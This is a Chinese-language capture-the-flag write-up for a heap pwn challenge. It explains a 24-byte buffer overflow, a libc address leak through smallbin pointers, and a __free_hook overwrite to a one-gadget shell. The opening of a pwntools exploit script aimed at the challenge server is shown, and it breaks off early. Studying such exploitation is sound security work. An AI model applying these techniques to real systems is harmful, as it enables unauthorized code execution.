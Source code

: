 ```c
      {
        printf("%s : size %ld\n", &s, cur_folder->sub_file[idx]->file_size);
        *v3 += cur_folder->sub_file[idx]->file_size;
      }
    }
    ++idx;
  }
  printf("The size of the folder is %ld\n", cur_folder->file_size);

}
```
第 17 行程式會將 `file->name` 複製到一個 buffer `s` 裡面。一個 file name 最多 31 個字元，**但是 `s` 的大小卻只有 24**，因此存在著 buffer overflow 的漏洞。透過這個漏洞，我們將有辦法蓋到 `v3` 這個變數。

## Exploit
`v3` 是一個 `int*` 指標，指向 `file->file_size`。如果我們有辦法將 `v3` 覆蓋掉，加上 `file_size` 我們可控，因此執行到第 25 行的程式碼時:
```c
 *v3 += cur_folder->sub_file[idx]->file_size;
```
 **我們就有辦法做到任意位址的讀寫**

不過因為這題保護全開的關係(包括PIE)，因此我們必須先想辦法 leak 一些 address。以下是我使用的方法:

1. 先新增&刪除掉一些檔案，讓指向 smallbin 頭 (位於 libc 裡面)的 pointer 能夠出現在 heap memory 上面。
2. 透過 overflow 的漏洞，先針對 `v3` 做 partial overwrite，使其指向一個 `struct file*` 指標 `p` (意即此時 `*v3` = `p`)。
3. 透過控制 `file_size`，我們可以對 `p` 進行覆寫 ( `p`=`p`+`file_size` )，讓 `p` 落在一個新的 heap address 上面，並使得 `p->name` 可以剛好對到 smallbin head 的 pointer。
4. List 出資料夾內的檔名，此時就可以 leak 出 libc 的 address。

這題的 GOT 唯讀，不過有用到 `malloc` 和 `free`，加上我們已經 leak 出了 libc 的 base address ，因此可以透過 overwrite 掉 libc 裡面的 `__free_hook` 變數，來讓程式在執行 `free` 的時候跳到我們想要跳的地方 ( 這裡我是直接跳到 one gadget 拿 shell )。

最後要注意的是，`file_size` 存的值是由 `atoi` 回傳的，也就是說最多就是 4 個 byte 的 integer，因此必須要分兩次做 overwrite : 一次 overwrite 掉 `__free_hook`，另外一次 overwrite 掉 `__free_hook+4`。


```python exp_shell.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.69.237.212"
#HOST = "127.0.0.1"

PORT = 4869
ELF_PATH = "./shellingfolder_noalarm"
#LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"
LIBC_PATH = "./libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
```